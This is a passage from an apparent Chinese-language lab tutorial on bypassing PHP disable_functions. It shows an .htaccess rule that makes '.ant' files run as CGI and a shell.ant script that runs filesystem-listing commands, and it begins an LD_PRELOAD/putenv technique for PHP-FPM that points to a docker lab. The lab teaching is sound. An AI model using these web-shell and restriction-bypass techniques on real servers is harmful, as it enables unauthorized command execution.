
最近修改的文件有`.htaccess`文件、`shell.ant`文件

`.htaccess`文件把ant结尾文件作为cgi文件处理

```ini
Options +ExecCGI
AddHandler cgi-script .ant
```

在`shell.ant`文件里，是刚刚执行的命令


```bash
#!/bin/sh
echo&&cd "/var/www/html";find / -type f -exec ls -lt {} + | head -n 10;echo abc01;pwd;echo 798e305c6
```

![20](/medias/disable_func/20.png)


## 04 PHP-FPM 利用 LD_PRELOAD

### 原理

- 没有禁用`putenv`函数，可以使用`putenv`函数设置`LD_PRELOAD`环境变量，劫持函数
- 存在可写目录，可以上传so文件
- mail()、imap_mail()、mb_send_mail()、error_log()等函数可用，可以调用子进程


php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

没有禁用`putenv`函数

### 配置与部署

[PHP-FPM 利用 LD_PRELOAD 复现环境](https://github.com/Apursuit/AntSword-Labs/tree/master/bypass_disable_functions/4/)

docker部署
